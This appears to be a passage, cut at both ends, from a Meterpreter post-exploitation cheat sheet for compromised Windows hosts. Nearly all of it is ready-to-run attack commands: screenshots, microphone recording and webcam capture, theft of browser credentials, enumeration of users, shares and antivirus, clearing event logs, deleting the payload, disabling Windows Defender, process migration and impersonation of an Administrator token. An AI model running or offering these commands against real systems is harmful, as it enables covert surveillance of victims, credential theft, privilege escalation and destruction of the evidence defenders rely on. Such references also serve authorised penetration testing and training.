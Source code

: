### Data Collection

```bash
# Screenshot
screenshot

# Record microphone
record_mic -d 30

# Webcam snapshot
webcam_snap

# Gather browser data
run post/windows/gather/enum_chrome
run post/multi/gather/firefox_creds
```

### System Reconnaissance

```bash
# Gather system information
run post/windows/gather/enum_logged_on_users
run post/windows/gather/enum_applications
run post/windows/gather/enum_shares

# Check for AV and security products
run post/windows/gather/enum_av_excluded
run post/windows/gather/enum_av
```

### Clearing Tracks

```bash
# Clear event logs
clearev

# Delete specific files
rm C:\\Windows\\Temp\\payload.exe

# Disable Windows Defender (requires admin)
run post/windows/manage/disable_windows_defender
```

## Advanced Meterpreter Techniques

### Process Manipulation

```bash
# List running processes
ps

# Memory operations
pgrep explorer.exe
migrate 1234  # Process ID to migrate to

# Steal tokens
use incognito
list_tokens -u
impersonate_token "DOMAIN\\Administrator"
```
